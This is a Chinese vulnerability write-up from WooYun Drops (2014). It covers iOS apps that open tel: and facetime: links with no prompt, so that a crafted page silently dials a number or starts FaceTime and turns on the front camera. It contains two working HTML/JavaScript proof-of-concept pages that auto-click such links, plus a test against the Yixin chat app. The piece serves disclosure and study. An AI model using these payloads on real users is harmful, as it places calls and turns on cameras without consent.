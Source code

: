 # iOS 应用自动拨打电话，开启摄像头缺陷

2014/08/27 16:41 | [Ano_Tom](http://drops.wooyun.org/author/Ano_Tom "由 Ano_Tom 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

国外一安全研究者发现该缺陷，在 iOS 设备上的某些应用里（其测试的 Google+、Facebook Messenger、Gmail 都成功触发），当用户点击了构造好的链接时，会自动拨打电话，或开启 facetime，从而打开前置摄像头，且无任何提醒。缺陷产生的原因是开发者没有看清官方开发文档对于 Phone Links 和 FaceTime Links 中这样的一条说明，“当用户在本地应用里打开该类型的链接时，iOS 并不展示提醒窗口"，从而导致缺陷的产生。

## 0x01 缺陷描述

* * *

查看苹果官方文档，对于 URL 方案的规定大致有如下几种类型：

### 1）Mail Links（发送邮件）

点击该类型的链接后，会自动调用邮件应用，且 mailto URL 必须指定一个收件地址。

网页链接中的字符串格式如下

```
<a href="mailto:frank@wwdcdemo.example.com">John Frank</a> 
```

本地应用上的 URL 字符串格式为

```
mailto:frank@wwdcdemo.example.com 
```

当然也可以在字符串中添加主题等内容，比如

```
mailto:foo@example.com?cc=bar@example.com&subject=Greetings%20from%20Cupertino!&body=Wish%20you%20were%20here! 
```

具体的 mailto 格式可以查看 RFC 文档

[`www.ietf.org/rfc/rfc2368.txt`](http://www.ietf.org/rfc/rfc2368.txt)

### 2）Phone Links（拨打电话）

tel 类型的 URL 是用来开启 iOS 设备上拨打电话的应用，并且拨打指定的号码。当用户在网页中点击了一个该类型的链接时，iOS 设备会弹出提醒窗口，询问用户是否拨打该号码，若用户同意则开始拨打电话。但是当用户在本地应用里打开该类型的链接时，iOS 并不展示提醒窗口，而是直接拨打指定的电话。当然本地应用可以配置是否显示提醒。

比如在网页中嵌入一个 a 标签，内容为

```
<a href="tel:10086">fuck it</a> 
```

那么访问该页面，点击 fuck it 链接后自动弹出拨打电话的提醒。如图 1

![2014082711012276720_png.jpg](img/img1_u134_png.jpg)

官方文档同时给出了本地应用里的 url 形式，本地应用中 URL 字符串为 tel:1-408-555-5555

在短信页面输入 tel://10086 点击后会提示拨打电话，如图 2

![2014082711020263770_png.jpg](img/img2_u122_png.jpg)

同时防止恶意的请求，链接里包含* #字符时，系统并不会拨打该号码。而且 iOS 上的电话号码的识别检测是默认开启的，如果想让网页上包含的数字不被识别为手机号码，则需要在网页中加入如下的标签

```
<meta name = "format-detection" content = "telephone=no"> 
```

具体的 URL 方案可以查看如下 RFC 文档，

[`www.ietf.org/rfc/rfc2396.txt`](http://www.ietf.org/rfc/rfc2396.txt)
[`www.ietf.org/rfc/rfc2806.txt`](http://www.ietf.org/rfc/rfc2806.txt)

### 3）FaceTime Links（开启 facetime，开启前置摄像头）

FaceTime 类型的 URL 是用来调用 FaceTime 应用拨打指定的用户，可以是电话号码或者是绑定的邮箱地址。当用户在网页里点开 FaceTime 类型的 URL 时，系统会提示是否拨打；但是当在本地应用里点击该类型的 URL 时，iOS 直接开启 FaceTime 应用拨打电话，而无提醒。本地应用可以配置是否显示提醒。
网页中的链接格式为

```
<a href="facetime:14085551234">Connect using FaceTime</a>
<a href="facetime:user@example.com">Connect using FaceTime</a> 
```

本地应用中 URL 字符串为

```
facetime:// 14085551234
facetime://user@example.com 
```

当然防止恶意请求，链接里包含* #字符时，系统并不会拨打该号码。而且 iOS7 之前的系统，用该协议拨打电话时候，是用的默认普通的拨打电话的应用而不是 FaceTime 应用

### 4）SMS Links（发送短信）

SMS 方案是用来打开短信应用，其 URL 格式如下 sms: <phone>其中</phone> <phone>指定目标用户的号码，可以包含 0 到 9 的数组和+-.三个字符，并且 URL 字符串不能包含任何其他的文本信息</phone>

网页中的链接格式为

```
<a href="sms:">Launch Messages App</a>
<a href="sms:1-408-555-1212">New SMS Message</a> 
```

本地应用中 URL 字符串为

```
sms:1-408-555-1212 
```

### 5）其他类型的 Links

其他像 Map Links（打开地图）、iTunes Links（打开 iTunes）、YouTube Links（打开 YouTube）等不一一介绍，是点击指定的链接后打开相应的地图、iTunes 应用等，详细查看苹果官方开发文档。

由上述的介绍可以看出，其中可以利用的有 Phone Links 和 FaceTime Links。因为其中都有一条这样的描述，如果链接是在本地应用里，则点击的话会直接调用相关系统应用，而没有任何提醒。

即如果在应用里直接输入 tel://xxxx、facetime://xxxx 类似的字符，会直接调用相关拨号应用。同样我们可以在应用里输入网页链接，然后在网页内容里嵌入这样的 a 标签链接，然后利用 js 实现加载网页时自动点击该 a 标签链接。

所以具体的测试代码如下，将其保存为 html 文件即可。

```
<a id="target" href="facetime:HackForFreedom@fbi.com">click me</a> 
<script> 
var target = document.getElementById("target"); 
var fakeEvent = document.createEvent("MouseEvents"); 
fakeEvent.initEvent("click", true, false); 
target.dispatchEvent(fakeEvent); 
</script> 
```

或者如下

```
<html>
<head>
    <title>v</title>
</head>
<body>
    <a id="dial" href="tel:10086">fuck it</a>
</body>
<script type="text/javascript">
<!--
window.onload = function()
{
    window.location.href = document.getElementById("dial").href;
};
//-->
</script>
</html> 
```

tel:xxxxx 表示要拨打的电话，点击该链接后则自动拨打电话；

facetiem:xxxxx 表示拨打的 facetime 帐号，点击该链接后自动开启摄像头，无任何提醒；

> 注：其中第二个代码在某些应用里测试没有执行成功，第一个代码在应用里基本能执行成功。

## 0x02 案例测试

* * *

测试了国内的几个常用的聊天类应用，基本都存在该缺陷，已经报告给厂商，修复可能需要一段时间。这里以在乌云上提交的易信为案例（官方将发布新版本）。
测试版本为 iOS 版本 6.1.4、易信 V2.9.0.1680

在朋友圈发布该 url，如图 3

![2014082711044861565_png.jpg](img/img3_u57_png.jpg)

好友点击后自动拨打电话或开启 FaceTime，如图 2、图 3

![2014082711050945066_png.jpg](img/img4_u57_png.jpg)

![2014082711052082517_png.jpg](img/img5_u100_png.jpg)

## 0x03 如何修复

* * *

在苹果官方开发文档给出的说明上，在本地应用打开相应的 URL 是可以配置提醒设置的。所以可能是开发者对苹果 URL 的规范未全面了解，疏忽导致了该问题。由于未接触过 iOS 开发，所以具体的修复不清楚。:)

References：

[`algorithm.dk/posts/rtfm-0day-in-ios-apps-g-gmail-fb-messenger-etc`](http://algorithm.dk/posts/rtfm-0day-in-ios-apps-g-gmail-fb-messenger-etc)
[`developer.apple.com/library/ios/featuredarticles/iPhoneURLScheme_Reference/PhoneLinks/PhoneLinks.html#//apple_ref/doc/uid/TP40007899-CH6-SW1`](https://developer.apple.com/library/ios/featuredarticles/iPhoneURLScheme_Reference/PhoneLinks/PhoneLinks.html#//apple_ref/doc/uid/TP40007899-CH6-SW1)
[`developer.apple.com/library/ios/featuredarticles/iPhoneURLScheme_Reference/PhoneLinks/PhoneLinks.html#//apple_ref/doc/uid/TP40007899-CH6-SW1`](https://developer.apple.com/library/ios/featuredarticles/iPhoneURLScheme_Reference/PhoneLinks/PhoneLinks.html#//apple_ref/doc/uid/TP40007899-CH6-SW1)

版权声明：未经授权禁止转载 [Ano_Tom](http://drops.wooyun.org/author/Ano_Tom "由 Ano_Tom 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [HttpOnly 隐私嗅探器](http://drops.wooyun.org/tips/2834)
*   [弱随机化种子漏洞科普](http://drops.wooyun.org/papers/1419)
*   [WordPress 3.8.2 cookie 伪造漏洞再分析](http://drops.wooyun.org/papers/1409)
*   [CVE-2012-0053 详解](http://drops.wooyun.org/papers/501)
*   [远程备份数据库和文件的方法](http://drops.wooyun.org/tips/783)
*   [安卓 Bug 17356824 BroadcastAnywhere 漏洞分析](http://drops.wooyun.org/papers/3912)